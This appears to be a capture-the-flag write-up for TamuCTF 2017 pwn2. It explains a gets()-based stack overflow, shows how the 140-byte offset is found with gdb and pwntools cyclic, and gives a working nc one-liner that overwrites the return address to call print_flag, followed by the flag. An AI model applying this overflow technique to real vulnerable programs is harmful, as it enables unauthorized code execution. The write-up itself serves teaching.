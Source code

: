 # [TamuCTF 2017](https://ctf.tamu.edu/)
### pwn2 - 100 Points

![Pwn2 challenge description](assets/1-pwn2_description.png)

We are given a source code file and a binary which is being run remotely.
Let's a analyze it with radare2:

```bash
$ wget https://ctf.tamu.edu/files/dacdf9d7951deede662f1b89e4ec2a90/pwn2
$ r2 pwn2
[0x08048450]> aaa		# Analyze
[0x08048450]> afl		# List functions found
.
.
0x0804854b    4 103          sym.print_flag
0x080485b2    1 84           sym.echo
0x08048606    1 36           sym.main
.
.
```

We can see similar functions to the previous pwning challenge, but there a complication here: if we look closely...

```bash
[0x080485c0]> s sym.print_flag 
[0x0804854b]> axt
[0x0804854b]>
```

We realize that **print_flag** function, which is responsible for printing the flag stored in **flag.txt**, is never called!  
Instead a new function named **echo** is called from **main** function.

![Pwn2 call in main function](assets/2-pwn2_call_echo_in_main.png)

Lets see what it does:

```bash
$ pdf @ sym.echo
```
![Pwn2 echo function content](assets/3-pwn2_echo_function.png)

Ok, so aparently it just prints back whatever you input before. But hey! To read your input it uses `gets` insecure function again!  That means we can write beyond the allocated memory for our input.
> "All right, but this case is not like the previous one! ([pwn1 challenge](../pwn1/pwn1.md)).  
> We do not want to change the value of a variable, but to call an existent function!"
> Is it possible?

Hell yeah! but to know how, we first need to understand how the stack is affected when calling a function (echo in this case).  
When a function is going to be called, some data is going to be pushed into the stack. Among other things one of the stuff is stored is the EIP register.

> "Why this register? Why is it special?"

The purpose of EIP register (or instruction pointer) is to indicate the CPU which instruction has to be executed after the current one. When the **echo** function finishes the CPU will need to continue the execution right after the call.  
Like this:

![Pwn2 Normal execution flow](assets/4-pwn2_normal_flow.png)    

And the stack will look like:

![Pwn2 Stack view on echo call](assets/5-pwn2_stack_view.png)    

Nice :v:!, looking at the stack we realize we could just write a bunch of bytes until we reach the **Saved EIP** value!

> Okay but ... how many bytes do we have to write?

Well, in this case we can calculate like `0x88h + 4d (ESP length) = 140d`, but I'll calculate another way too.  
Lets use gdb (GNU Debugger).

```bash
$ python -c 'print("A"*500) > input.txt'	# We generate a long string and save it in a text file.
$ gdb pwn2									# We open the binary with gdb.
(gdb) run < input.txt						# Run the binary with the content of input.txt as input.
```

![Pwn2 GDB executing pwn2](assets/6-pwn2_gdb.png) 

We ran the binary with gdb and passed 500 "A"s as input.
That `0x41414141` means that we have overwritten EIP register with value "AAAA" and the process crashed when it tried to execute the instrucction of that address (obviously there is nothing there).

So now we could just create a custom string like "ABCDEF...." to figure out which part of the string is being used to overwrite the EIP ... OR we can use a script which generates it for us :grin:.

Now is when it comes the **pwntools** for python (to install just do `$ pip install pwntools`) and more specifically its
**cyclic** utility. **Cyclic** is able to generate a sequence of unique substrings of any length (4 by default).

Lets try it!

```bash
$ pwn cyclic 500 > input.txt				# Generate a string of 500 chars with unique substrings of 4 characters.
$ gdb pwn2
(gdb) run < input.txt
```

![Pwn2 GDB Executing pwn2](assets/7-pwn2_gdb_cyclic.png) 

To check that value we do:
```bash
$ pwn cyclic -l 0x6261616b
140
```

And finally, after 140 Characters we write a new address to continue the execution. Which address? the address of the **print_flag** function, of course! The new execution flow will look like this:

![Pwn2 Modified execution flow](assets/8-pwn2_modified_flow.png) 

Lets get our flag:
```bash
$ python -c 'print("A"*140 + "\x4b\x85\x04\x08")' | nc pwn.ctf.tamu.edu 4321 
Enter a word to be echoed:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAK�
This function has been deprecated
gigem{D34D_FUNC_R1S1NG}
```

Answer: gigem{D34D_FUNC_R1S1NG}

### Complete video

<a href="https://asciinema.org/a/e8oyx42bm4nbs5stm33o4x24s?autoplay=1"><img src="https://asciinema.org/a/e8oyx42bm4nbs5stm33o4x24s.png" width="400"/></a>

### Tools used:

 * [radare2](https://github.com/radare/radare2) - To analyze the binary.
 * [gdb](https://www.gnu.org/software/gdb/) - For binary debugging.
 * [pwntools](https://github.com/Gallopsled/pwntools) and [cyclic](http://docs.pwntools.com/en/stable/util/cyclic.html#pwnlib.util.cyclic.cyclic) - To generate unique substrings.
 * [draw.io](https://www.draw.io/) - To draw some graphics.
 * [asciinema](https://asciinema.org) - To record the session.
